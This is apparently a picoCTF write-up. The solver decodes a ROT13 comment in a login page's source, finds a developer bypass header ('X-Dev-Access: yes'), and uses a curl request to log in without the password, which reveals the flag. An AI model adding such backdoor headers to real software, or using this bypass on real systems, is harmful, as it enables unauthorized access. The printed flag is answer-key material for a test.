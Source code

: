 
---

## Information given

#### Description

We’re in the middle of an investigation. One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal. We’ve uncovered the email address he uses to log in: `ctf-player@picoctf.org`. Unfortunately, we don’t know the password, and the usual guessing techniques haven’t worked. But something feels off... it’s almost like the developer left a secret way in. Can you figure it out?

Additional details will be available after launching your challenge instance.

#### Hints
Developers sometimes leave notes in the code; but not always in plain text.
A common trick is to rotate each letter by 13 positions in the alphabet.

---

## Solution

Let's start by launching the instance.

After the instance is launched, let's read the "notes in the code". The hint is referring to comments:

To see code: right click > View Page Source.

The source code:

```javascript
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login</title>
    <style>
        body {
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
            background-color: #eaeaed;
            font-family: Arial, sans-serif;
        }

        #loginForm {
            background: #fff;
            padding: 20px;
            border-radius: 8px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
            max-width: 400px;
            width: 100%;
        }

        #loginForm label {
            display: block;
            margin-bottom: 8px;
            font-weight: bold;
        }

        #loginForm input {
            width: calc(100% - 10px);
            padding: 8px;
            margin-bottom: 16px;
            border: 1px solid #ddd;
            border-radius: 4px;
        }

        #loginForm button {
            width: 100%;
            padding: 10px;
            background-color: #007BFF;
            border: none;
            color: white;
            border-radius: 4px;
            font-size: 16px;
        }

        #loginForm button:hover {
            background-color: #0056b3;
        }
    </style>
</head>
<body>
    <!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
    <!-- Remove before pushing to production! -->   

    <form id="loginForm">
        <h2 style="font-size: 24px; margin-bottom: 24px;">
            Login
        </h2>
        <label for="email">Email:</label>
        <input type="email" id="email" name="email" required><br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required><br>
        <button type="submit">Login</button>
    </form>

    <script>
        document.getElementById('loginForm').addEventListener('submit', function(event) {
            event.preventDefault();

            const formData = {
                email: document.getElementById('email').value,
                password: document.getElementById('password').value
            };

            fetch('/login', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(formData)
            })
            .then(response => response.json())
            .then(data => {
                console.log(data);
                if (data.success) {
                    prompt('Login successful!\nFlag:', data.flag);
                } else {
                    alert('Invalid credentials');
                }
            })
            .catch(error => console.error('Error:', error));
        });
    </script>
</body>
</html>
```

The important part:

```
<!-- ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf" -->
```

This seems to be ROT13 encoding:

![[Screenshot 2025-10-01 at 20.10.46.png]]

Let's craft the curl payload:

```bash
siddharthsehgal@mac LAST_DIR % curl -i -X POST 'http://amiable-citadel.picoctf.net:50897/login' \

  -H 'Content-Type: application/json' \

  -H 'X-Dev-Access: yes' \

  -d '{"email":"ctf-player@picoctf.org","password":"anything"}'

  

HTTP/1.1 200 OK

**X-Powered-By**: Express

**Content-Type**: application/json; charset=utf-8

**Content-Length**: 127

**ETag**: W/"7f-OXFNNEgUDQ6luMcdemqCj4aTy9o"

**Date**: Wed, 01 Oct 2025 18:15:33 GMT

**Connection**: keep-alive

**Keep-Alive**: timeout=5

  

{"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{brut4_f0rc4_7e5db33b}"}
```

So the flag is: `picoCTF{brut4_f0rc4_7e5db33b}`.

---
